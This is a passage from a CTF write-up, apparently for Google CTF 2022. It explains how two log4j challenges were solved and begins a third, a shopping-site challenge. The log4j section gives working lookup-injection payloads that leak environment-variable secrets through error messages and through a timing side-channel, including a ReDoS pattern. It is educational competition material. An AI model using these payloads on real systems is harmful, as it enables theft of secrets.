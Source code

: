 Although the version of log4j used in this problem is not the vulnerable version, the parameters are controllable. Therefore, let's take a look at some of the custom lookups of log4j: https://logging.apache.org/log4j/2.x/manual/lookups.html

`${env:FLAG}` represents the flag in the environment variables, and `${java:runtime}` will print out Java-related information. Combining the two becomes: `${java:${env:FLAG}}`, which will output an error message and the flag:

```
2022-07-08 01:31:16,285 main ERROR Resolver failed to lookup java:CTF{d95528534d14dc6eb6aeb81c994ce8bd} 
java.lang.IllegalArgumentException: CTF{d95528534d14dc6eb6aeb81c994ce8bd} at 
org.apache.logging.log4j.core.lookup.JavaLookup.lookup(JavaLookup.java:116) at 
org.apache.logging.log4j.core.lookup.StrLookup.evaluate(StrLookup.java:119) at 
org.apache.logging.log4j.core.lookup.Interpolator.evaluate(Interpolator.java:190) at 
org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1183) at 
org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1098) at 
org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:974) at 
org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:488) at 
.....
```

### LOG4J2 (43 solves)

Similar to the first problem, but the error message is not displayed, so other methods can be used to leak the flag.

For example, my teammates used:

1. `%replace{${env:FLAG}%repeat{x}{200000000}}{CTF.*}{y}`
2. `%replace{${env:FLAG}%repeat{x}{200000000}}{CTX.*}{y}`

Generate a long string and replace it with a replace string. Determine whether it contains a certain character based on the final time. The former takes about 4-5 seconds, and the latter takes more than 7 seconds.

You can also refer to the ReDoS constructed by [maple](https://blog.maple3142.net/2022/07/04/google-ctf-2022-writeups/#web):

```
%replace{S${env:FLAG}E}{^SCTF.a((((((((((((((((((((.)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*E$}{}
```

The flag can also be slowly found from the time difference.

### HORKOS (10 solves)

This is the only problem I solved by myself, and it was quite interesting.

This problem is like a shopping website. After selecting the items you want on the front end, a JSON package will be generated and sent to `/order`:

``` js
const script = new VMScript(fs.readFileSync('./shoplib.mjs').toString().replaceAll('export ','') + `
sendOrder(cart, orders)
`);

app.post('/order', recaptcha.middleware.verify, async (req,res)=>{
    req.setTimeout(1000);
    
    if (req.recaptcha.error && process.env.NODE_ENV != "dev") {
        res.writeHead(400, {'Content-Type': 'text/html'});
        return await res.end("invalid captcha");
    }

    if (!req.body.cart) {
        res.writeHead(400, {'Content-Type': 'text/html'});
        return await res.end("bad request")
```